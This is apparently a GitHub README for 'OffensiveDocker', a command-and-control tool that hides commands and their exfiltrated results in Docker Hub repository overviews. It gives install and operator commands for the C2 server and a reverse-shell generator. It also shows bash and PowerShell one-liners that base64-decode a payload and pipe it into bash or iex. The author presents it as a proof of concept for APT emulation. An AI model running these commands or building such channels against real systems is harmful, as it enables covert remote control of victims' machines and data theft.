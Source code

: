 # OffensiveDocker by @0xbugatti
OffensiveDocker is a tool designed to turn Docker Hub repository to secure exfiltration and C&amp;C by JSON-based requests . This script allows you to save, show , and read command execution results in addition to execution , effectively enabling my APT Emulation Skills, cloud-based C2 (Command &amp; Control) system.
![odloogo](imgs/odlogo.png)

# Features
- Execute new commands and append them to the repository.

- Retrieve and display C2 execution history stored in Docker Hub repository overviews.
        
- Encode Data before sent and Decode on display results from previous executions.
    
- reset db to avoid exceeding limits errors
  
- Save execution history into an SQLite database before reset .
    
- Switch between different agent repositories.
    
    
- Automatic repository creation if it doesn't exist.

# Note 
This Is Just POC of the Concept alot of Evasion Techniques could be Implemented but 
I will not disclose the special edition and awaiting that from contributers

# Installation 
```bash
git clone https://github.com/0xBugatti/OffensiveDocker.git
cd OffensiveDocker/
pip install -r requirements.txt
python C2-server.py --user <username> --new --repo <repo> --token <docker_hub_token>

```
# Usage


## Create repos 

```
python C2-Server.py --user <username> --new --repo <repo> --token <docker_hub_token>
```

- `--user` : Docker Hub username
    
- `--repo` : Repository name
    
- `--token` : Docker Hub API token
    
- `--save` : Save all C2 connection data to SQLite and exit
    
- `--read` : Read all C2 connection data and exit
    
- `--new` : Create the repository if it does not exist

## Interactive Mode

Once the script is running, you can use the following commands:

#### Available Commands:

|Command|Description|
|---|---|
|`exec "text"`|Add a new command to be executed|
|`show <ID>`|Retrieve and decode the 'result' field for the given ID|
|`setagent-repo <name>`|Change the current agent repo|
|`read`|Display all C2 connection data in a table|
|`save`|Save all connection data to an SQLite database|
|`help`|Display this help menu|
|`reset`|Reset the repository overview|
|`stop`|Exit the program|

##### Example
```
testit> exec "whoami"
testit> show 1
testit> save
testit> read
testit> stop
```


## Generating a reverse shells

### bash

```bash
python3 shellgen.py --repourl "https://hub.docker.com/v2/repositories/your-user/your-repo" --token "your-docker-token" --mode bash`
```

```bash
echo "YmFzZTY0LWVuY29kZWQtc2NyaXB0" | base64 -d | bash
```

### powershell

```bash
python3 shellgen.py --repourl "https://hub.docker.com/v2/repositories/your-user/your-repo" --token "your-docker-token" --mode powershell`
```
**Example :**



```powershell
([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("YmFzZTY0LWVuY29kZWQtc2NyaXB0"))) | iex
```

## POCs
![image](imgs/repogen.jpg)
![image](imgs/win-revshell.jpg)
![image](imgs/linux-revshell.jpg)
![image](imgs/linux.png)
![image](imgs/AD-Win.png)
c2thedocker.png
## License

This project is licensed under the MIT License.

## Author

Developed by **0xbugatti**

# 🚀 Follow Me  

Stay connected and follow me on my social platforms!  

[![YouTube](https://img.shields.io/badge/YouTube-FF0000?style=for-the-badge&logo=youtube&logoColor=white)](https://www.youtube.com/@0xbugatti)  
[![X (Twitter)](https://img.shields.io/badge/X-000000?style=for-the-badge&logo=twitter&logoColor=white)](https://x.com/0xbugatti)  
[![Medium](https://img.shields.io/badge/Medium-000000?style=for-the-badge&logo=medium&logoColor=white)](https://medium.com/@0xbugatti)  
[![Facebook](https://img.shields.io/badge/Facebook-1877F2?style=for-the-badge&logo=facebook&logoColor=white)](https://www.facebook.com/0xbugatti)  


